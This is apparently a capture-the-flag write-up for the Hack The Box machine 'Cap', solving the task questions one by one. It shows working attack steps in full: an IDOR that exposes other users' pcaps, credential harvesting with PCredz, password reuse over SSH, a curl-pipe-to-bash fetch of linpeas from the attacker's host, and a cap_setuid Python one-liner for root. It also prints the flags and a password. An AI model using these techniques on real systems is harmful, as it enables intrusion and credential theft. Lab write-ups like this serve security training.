

Run a full nmap scan:

```sh
$ sudo nmap -sV -sC -Pn -p- 10.129.3.38 -oN cap.nmap
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-25 11:10 EDT
Nmap scan report for 10.129.3.38
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 733.91 seconds
```

The nmap result suggests:
- A Ubuntu Linux machine
- FTP, SSH enabled
- Web application running with Gunicorn (a Python backend)

> How many TCP ports are open? → 3

Visit the web app at http://10.129.3.38. Click on the `Security Snapshot` tab, we got redirected to http://10.129.3.38/data/1:

```
GET /capture HTTP/1.1
```
```
HTTP/1.1 302 FOUND
Server: gunicorn
Date: Mon, 25 May 2026 15:41:25 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 220
Location: http://10.129.3.38/data/1
```

> After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]? → data

Looks like classic IDOR, try visit http://10.129.3.38/data/0, successfully read other users scan



> Are you able to get to other users' scans? → yes

Download the pcap file (`0.pcap`) by clicking on the `Download` button. Install [PCredz](https://github.com/lgandx/PCredz) to harvest credentials from the pcap file:

```sh
$ git clone https://github.com/lgandx/PCredz
$ cd PCredz
$ docker build -t pcredz .
$ cd ~/htb/easy-cap
$ docker run --rm -v $(pwd):/data pcredz -f /data/0.pcap
PCredz 2.1.0
Author: Laurent Gaffie
Contact: lgaffie@secorizon.com
X: @secorizon

CC number scanning activated

Parsing /data/0.pcap...
192.168.196.1:54411 > 192.168.196.16:21
FTP User: nathan

192.168.196.1:54411 > 192.168.196.16:21
FTP Pass: Buck3tH4TF0RM3!


/data/0.pcap parsed in: 0.002142 seconds (72 packets, 0.00947 MB).
```

Found this credential and store it inside `creds.txt`:

```
nathan:Buck3tH4TF0RM3!
```

> Which application layer protocol in the pcap file can the sensetive data be found in? → ftp

Try password reuse on ssh:

```
$ ssh nathan@10.129.3.38 
<SNIP>
nathan@10.129.3.38's password: Buck3tH4TF0RM3!
<SNIP>
nathan@cap:~$ cat user.txt
0409f438dabcc672e81d48e6f3e0854d
```

> We've managed to collect nathan's FTP password. On what other service does this password work? → ssh
> Submit the flag located in the nathan user's home directory. → 0409f438dabcc672e81d48e6f3e0854d

Now for privilege escalation, first install [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh) on host machine and host it:

```sh
$ curl -O https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
$ python -m http.server
```

On the target machine, retrieve the script and pipe it through `bash` to run it directly:

```sh
$ curl 10.1.16.102:8000/linpeas.sh | bash
<SNIP>
══╣ Processes with capability sets (non-zero CapEff/CapAmb, limit 40) (T1548.001)
                                                                                                                                                            
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
<SNIP>
$ ls -la /usr/bin/python3.8
-rwxr-xr-x 1 root root 5486384 Jan 27  2021 /usr/bin/python3.8
```

> What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges? → /usr/bin/python3.8

Notice that `python3` has `cap_setuid` capability where it allows the process to change its UID to become `root`. Checking on `/usr/bin/python3.8` we know that anyone can execute this binary and abuse it to escalate privilege. Run this to gain `root` shell and read the flag:

```sh
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cat /root/root.txt
7c72ac696a84d235a6120f9304d534f3
```

> Submit the flag located in root's home directory. → 7c72ac696a84d235a6120f9304d534f3